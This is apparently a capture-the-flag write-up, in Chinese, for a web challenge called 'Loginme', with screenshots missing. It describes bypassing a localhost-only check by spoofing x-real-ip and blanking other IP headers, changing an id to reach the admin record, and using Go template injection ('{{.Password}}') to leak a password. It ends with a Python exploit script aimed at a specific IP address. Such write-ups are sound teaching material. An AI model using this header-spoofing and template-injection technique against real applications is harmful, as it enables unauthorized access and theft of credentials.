









#  Loginme

进入网页，显示如下界面：



上面提示只有localhost能访问，点击其中的链接（/admin/index?id=1）会返回401。
看看提示和代码：







根据middleware可以发现，后端要求x-forwarded-for和x-client-ip为空，而clientIP()为127.0.0.1，网上查了一下发现这玩意儿看的是x-real-ip，那么分别设置这3个header就行。根据structs，flag放在Admin中，把请求中的id改为0：



根据route，如果age为空且请求参数里没有age，后端就会给age赋一串文字。加上age参数再请求一次：



可以看到age的内容，也就是说可以尝试SSTI：



得到flag。

EXP：
```python
import requests

headers = {
    'x-forwarded-for': '',
    'x-client-ip': '',
    'x-real-ip': '127.0.0.1'
}
params = {
    'id': 0,
    'age': '{{.Password}}'
}
r = requests.get('http://124.71.166.197:18001/admin/index', headers=headers, params=params)
print(r.text)
```
